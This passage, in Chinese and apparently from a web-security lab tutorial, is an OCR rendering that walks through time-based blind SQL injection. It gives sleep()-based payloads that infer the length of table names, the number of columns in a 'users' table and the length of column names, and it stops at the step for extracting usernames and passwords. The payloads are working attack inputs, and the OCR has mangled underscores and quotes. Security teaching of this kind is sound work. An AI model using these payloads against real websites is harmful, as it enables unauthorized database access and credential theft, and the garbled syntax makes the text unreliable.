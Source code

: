 
接着挨个猜解表名：


```text
1’ and if(length(substr((select table_name from information__schema.tables where tableschema=database() limit 0,1),1))=1,sleep(5),1) # 没有延迟

…

1’ and if(length(substr((select table__name from information__schema.tables where tableschema=database() limit 0,1),1))=9,sleep(5),1) # 明显延迟_

```


说明第一个表名的长度为9个字符。


采用二分法即可猜解出表名。

1. 猜解表中的字段名

首先猜解表中字段的数量：


```text
1’ and if((select count(column_name) from information__schema.columns where tablename= ’users’)=1,sleep(5),1)# 没有延迟

…

1’ and if((select count(column__name) from information__schema.columns where tablename= ’users’)=8,sleep(5),1)# 明显延迟_

```


说明users表中有8个字段。


接着挨个猜解字段名：


```text
1’ and if(length(substr((select column_name from information__schema.columns where tablename= ’users’ limit 0,1),1))=1,sleep(5),1) # 没有延迟

…

1’ and if(length(substr((select column__name from information__schema.columns where tablename= ’users’ limit 0,1),1))=7,sleep(5),1) # 明显延迟_

```


说明users表的第一个字段长度为7个字符。


采用二分法即可猜解出各个字段名。

1. 猜解用户名密码
